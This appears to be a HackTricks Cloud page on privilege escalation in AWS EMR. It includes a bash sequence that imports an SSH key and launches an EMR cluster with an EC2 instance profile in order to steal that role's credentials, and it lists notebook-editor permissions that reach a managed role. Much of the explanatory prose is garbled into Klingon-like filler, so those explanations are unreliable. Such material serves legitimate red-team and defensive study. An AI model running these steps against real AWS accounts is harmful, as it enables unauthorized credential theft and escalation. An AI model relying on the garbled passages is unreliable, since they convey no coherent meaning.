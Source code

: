 # AWS - EMR Privesc

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## EMR

More **info about EMR** in:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

An attacker with these permissions can **run a new EMR cluster attaching EC2 roles** and try to steal its credentials.\
Note that in order to do this you would need to **know some ssh priv key imported in the account** or to import one, and be able to **open port 22 in the master node** (you might be able to do this with the attributes `EmrManagedMasterSecurityGroup` and/or `ServiceAccessSecurityGroup` inside `--ec2-attributes`).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Qapla'! **EMR role** jatlh `--service-role` 'ej **ec2 role** jatlh `--ec2-attributes` 'e' vItlhutlh 'e' `InstanceProfile` vItlhutlh. 'ach, vItlhutlh 'e' credentials EC2 role (vaj connect ssh) 'ach vItlhutlh EMR IAM Role.

**QaD Potential:** Privesc to the EC2 service role specified.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

vaj permissions 'e' attacker 'e' **AWS console** vItlhutlh, Notebook 'ej vItlhutlh 'ej vItlhutlh 'e' IAM Role.

{% hint style="danger" %}
vaj attach IAM role notebook instance tests noticed vaj vItlhutlh AWS managed credentials 'ej creds related IAM role related.
{% endhint %}

**QaD Potential:** Privesc to AWS managed role arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

vaj permission 'e' attacker vItlhutlh **Jupyter Notebook 'ej vItlhutlh 'e' IAM role** associated.\
URL notebook 'e' `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
vaj attach IAM role notebook instance tests noticed vaj vItlhutlh AWS managed credentials 'ej creds related IAM role related.
{% endhint %}

**QaD Potential:** Privesc to AWS managed role arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
